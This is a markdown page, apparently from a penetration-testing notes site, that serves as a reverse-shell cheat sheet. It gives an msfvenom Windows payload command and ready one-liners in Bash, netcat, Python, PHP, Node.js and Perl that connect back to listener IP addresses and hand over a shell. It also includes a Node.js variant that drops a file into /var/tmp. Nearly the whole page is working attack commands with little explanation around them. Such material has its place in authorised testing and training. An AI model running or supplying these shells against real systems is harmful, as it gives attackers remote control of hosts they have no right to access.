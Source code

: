 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shells

## msfvenom

{% tabs %}
{% tab title="Windows" %}
{% code overflow="wrap" %}
```bash
# Create a reverse shell payload
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.X LPORT=4444 -f exe -o payload.exe
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Bash

{% tabs %}
{% tab title="classic" %}
```bash
bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```
{% endtab %}

{% tab title="mkfifo" %}
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.13 1337 >/tmp/f'
```
{% endtab %}
{% endtabs %}

## Netcat

```bash
/bin/nc -nv 192.168.45.155 9090 -e /bin/bash
```

## Python

To create a reverse shell with Python, we will create a socket, connect to our listener, duplicate the input, output, and error descriptors and call `/bin/sh` with `subprocess`.

{% code overflow="wrap" %}
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.155",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

## PHP

The below commands instruct PHP to run (`-r`) the command within quotes.

{% code overflow="wrap" %}
```bash
php -r '$sock=fsockopen("192.168.45.155",9090);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.45.155",9090);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.45.155",9090);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.45.155",9090);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.45.155",9090);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```
{% endcode %}

## Node.js

The initial command injection will place a malicious file in a world-writable directory (`/var/tmp`) that calls upon Node.js `child_process` and `exec()` functions. The latter will contain the Netcat reverse shell payload.

{% code overflow="wrap" %}
```bash
echo "require('child_process').exec('nc -nv 192.168.45.155 9090 -e /bin/bash')" > /var/tmp/offsec.js ; node /var/tmp/offsec.js
```
{% endcode %}

## Perl

We import the `Socket` module, set up our IP and port, and pass these into a socket call. We then initialize the TCP connection (`connect()`), open channels for `STDIN`, `STDOUT`, and `STDERR`, and call `/bin/bash`.

{% code overflow="wrap" %}
```bash
perl -e 'use Socket;$i="192.168.45.155";$p=9090;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="revshells" %}
{% embed url="https://www.revshells.com/" %}
{% endtab %}

{% tab title="revshellgen" %}
{% embed url="https://github.com/t0thkr1s/revshellgen" %}
{% endtab %}
{% endtabs %}
